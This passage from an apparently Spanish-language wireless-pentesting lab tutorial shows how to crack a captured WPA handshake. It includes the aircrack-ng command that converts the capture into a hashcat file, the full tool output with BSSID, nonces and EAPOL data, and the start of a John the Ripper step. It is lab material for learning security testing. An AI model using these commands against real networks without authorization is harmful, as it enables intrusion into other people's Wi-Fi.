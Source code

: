 ### CRACKING DEL HANDSHAKE

  Terminado el ataque obtendremos unos archivos:
  ```bash
  (kali㉿Hacknet)-[~/Escritorio/labWireless]
  Sie7e>$ ls
  captura-01.cap  captura-01.csv  captura-01.kismet.csv  captura-01.kismet.netxml  captura-01.log.csv
  ```
  el mas importante es captura-01.cap

  Se recomiendo tener a la mano un buen diccionario para poder realizar el cracking de la contraseña de la red wifi, porque dependerá del método que uses para crackear y obtener la contrasela en texto claro.
  
- **CRACKING CON JOHN**
  - Primero debemos de covertir la captura a un  ".hcap" de la siguiente manera:
  
    aircrack-ng -J < Nombre que trendra el archivo > < Nombre de la captura>

  ```bash
  (kali㉿Hacknet)-[~/Escritorio/labWireless]
    Sie7e>$ aircrack-ng -J hash.hcap captura-01.cap 
    Reading packets, please wait...
    Opening captura-01.cap
    Read 24770 packets.

      #  BSSID              ESSID                     Encryption

      1  B4:1C:30:6C:03:E8  SieteLand                 WPA (1 handshake)

    Choosing first network as target.

    Reading packets, please wait...
    Opening captura-01.cap
    Read 24770 packets.

    1 potential targets
    Building Hashcat file...

    [*] ESSID (length: 9): SieteLand
    [*] Key version: 2
    [*] BSSID: B4:1C:30:6C:03:E8
    [*] STA: 74:15:75:0D:53:7E
    [*] anonce:
        B9 FD F1 6A 57 91 43 91 C1 51 40 73 E6 CE F0 35 
        0E 6C 4A 6E C3 E3 F3 F1 FE A1 F3 80 C0 BC 23 EF 
    [*] snonce:
        81 35 9A 2E 6E 25 A5 D2 2E F6 71 F7 6B E1 82 20 
        27 93 FF 1B 3C 7D 68 CA 0B 56 E5 A2 3F DB B9 EF 
    [*] Key MIC:
        99 0B 99 43 0D 8A 52 05 6C C1 92 A3 93 82 E9 7D
    [*] eapol:
        01 03 00 75 02 01 0A 00 00 00 00 00 00 00 00 00 
        01 81 35 9A 2E 6E 25 A5 D2 2E F6 71 F7 6B E1 82 
        20 27 93 FF 1B 3C 7D 68 CA 0B 56 E5 A2 3F DB B9 
        EF 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
        00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
        00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
        00 00 16 30 14 01 00 00 0F AC 04 01 00 00 0F AC 
        04 01 00 00 0F AC 02 00 00 

    Successfully written to hash.hcap.hccap
  ```
    - Debemos obtener el hash, asi que usaremos hccap2john:
